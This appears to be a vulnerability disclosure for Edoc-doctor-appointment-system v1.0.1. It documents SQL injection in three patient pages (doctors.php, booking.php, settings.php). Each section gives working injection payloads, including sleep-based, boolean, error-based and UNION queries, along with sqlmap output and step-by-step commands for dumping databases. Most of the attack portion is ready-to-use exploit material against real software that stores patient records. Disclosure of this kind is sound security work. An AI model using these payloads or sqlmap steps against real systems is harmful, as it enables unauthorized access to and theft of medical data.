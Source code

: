 # Edoc-doctor-appointment-system v1.0.1  was discovered to contain multiple SQL injection vulnerabilities via /patient/doctors.php , /patient/booking.php , /patient/settings.php .Allowing remote attackers to execute the sqli attack.

## 1 . Blind SQLi in /patient/doctors.php 

PoC

```
http://ip/patient/doctors.php?action=view&id=1' AND (SELECT 7788 FROM (SELECT(SLEEP(5)))gIPf)-- MVmI
```



vendor : https://github.com/HashenUdara/edoc-doctor-appointment-system

Vulnerability Position : http://ip/patient/doctors.php 



Log in to the http://ip/login.php

Visit http://ip/patient/doctors.php  ,  will access the page of the module.

Use burp suite to capture request packet , and then click the View button.

![image-20220718142415157](.\img\image-20220718142415157.png)



![image-20220718142655610](.\img\image-20220718142655610.png)



Copy request packet to sqlmap root path , and revise id=1*  , save as 2.txt.

![image-20220718143251333](.\img\image-20220718143251333.png)



Use `python sqlmap.py -r 2.txt --threads 10 --batch --level 3 --risk 3 --dbms mysql --technique B --dbs`  to run sqlmap.

![image-20220718150104521](.\img\image-20220718150104521.png)

![image-20220718143826189](.\img\image-20220718143826189.png)





## 2. SQLi in /patient/booking.php 

PoC

```
sqlmap identified the following injection point(s) with a total of 71 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://www.doctor111.com:80/patient/booking.php?id=1 AND 7686=7686

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: http://www.doctor111.com:80/patient/booking.php?id=1 OR (SELECT 3032 FROM(SELECT COUNT(*),CONCAT(0x717a6a7071,(SELECT (ELT(3032=3032,1))),0x7170787a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://www.doctor111.com:80/patient/booking.php?id=1 AND (SELECT 8632 FROM (SELECT(SLEEP(5)))HCPI)

    Type: UNION query
    Title: Generic UNION query (NULL) - 13 columns
    Payload: http://www.doctor111.com:80/patient/booking.php?id=-4821 UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x717a6a7071,0x4247754365636f69425457434250756e6877504d52795463504f436950496d726376685a64465049,0x7170787a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
```



vendor : https://github.com/HashenUdara/edoc-doctor-appointment-system

Vulnerability Position : http://ip/patient/booking.php 



Log in to the http://ip/login.php

First , visit http://ip/patient/schedule.php , and then use burpsuite to capture request packet , click Book Now button.

![image-20220718144354012](.\img\image-20220718144354012.png)



![image-20220718144910131](.\img\image-20220718144910131.png)



Copy request packet to sqlmap root path , and revise id=1*  , save as 2.txt.

![image-20220718145003623](.\img\image-20220718145003623.png)

Use `python sqlmap.py -r 2.txt --threads 10 --batch --level 3 --risk 3 --dbms mysql --dbs`  to run sqlmap.

![image-20220718150315609](D:\Pyproject\cve\bug_e\edoc-doctor-appointment-system\img\image-20220718150315609.png)







## 3. SQLi in /patient/settings.php

PoC

```
sqlmap identified the following injection point(s) with a total of 177 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: http://www.doctor111.com:80/patient/settings.php?action=edit&id=1' AND 3197=(SELECT (CASE WHEN (3197=3197) THEN 3197 ELSE (SELECT 9367 UNION SELECT 1506) END))-- -&error=0

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: http://www.doctor111.com:80/patient/settings.php?action=edit&id=1' OR (SELECT 3493 FROM(SELECT COUNT(*),CONCAT(0x7162786a71,(SELECT (ELT(3493=3493,1))),0x717a6a7071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- ITWX&error=0

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://www.doctor111.com:80/patient/settings.php?action=edit&id=1' AND (SELECT 6213 FROM (SELECT(SLEEP(5)))kZmv)-- SfKb&error=0

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: http://www.doctor111.com:80/patient/settings.php?action=edit&id=-6866' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7162786a71,0x78415242537376577872514272566a74536270524449464568776d4e5a577a57524e676b62644d57,0x717a6a7071)-- -&error=0
---
```





vendor : https://github.com/HashenUdara/edoc-doctor-appointment-system

Vulnerability Position : http://ip/patient/settings.php



Log in to the http://ip/login.php

First , visit http://ip/patient/settings.php , and then use burpsuite to capture request packet , click Book Now button.

![image-20220718150601739](.\img\image-20220718150601739.png)



![image-20220718150651966](.\img\image-20220718150651966.png)

Copy request packet to sqlmap root path , and revise id=1*  , save as 2.txt.

![image-20220718150822191](.\img\image-20220718150822191.png)

Use `python sqlmap.py -r 2.txt --threads 10 --batch --level 3 --risk 3 --dbms mysql --dbs`  to run sqlmap.

![image-20220718151328691](.\img\image-20220718151328691.png)